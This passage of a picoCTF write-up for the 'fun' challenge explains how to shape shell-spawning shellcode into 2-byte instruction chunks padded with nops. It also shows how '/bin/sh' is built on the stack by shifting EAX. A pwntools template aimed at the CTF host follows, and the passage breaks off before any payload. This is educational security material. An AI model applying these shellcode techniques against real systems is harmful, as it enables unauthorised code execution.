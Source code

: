 I based by shellcode on this example by Jean Pascal Pereira:
http://shell-storm.org/shellcode/files/shellcode-811.php

For the most part, this just means we have to split instructions into 2-byte chunks and space them with nops where necessary.

An issue arises when trying to push strings onto the stack, such as `/bin/sh`, which is typically used in the syscall to spawn a shell.
To solve this, we can add a single byte into `EAX`, then use the bitwise shift instructions to shift by 1 bit.
Doing this 8 times will shift the register contents by 1 byte, allowing us to add the next byte.
Repeating this for every byte, we can print entire strings onto the stack.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mercury.picoctf.net --port 28494 fun
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('fun')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mercury.picoctf.net'
port = int(args.PORT or 28494)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    p = process([exe.path] + argv, *a, **kw)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
context.terminal = ['tmux', 'splitw', '-h']
gdbscript = '''
b*0x080485c9
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
```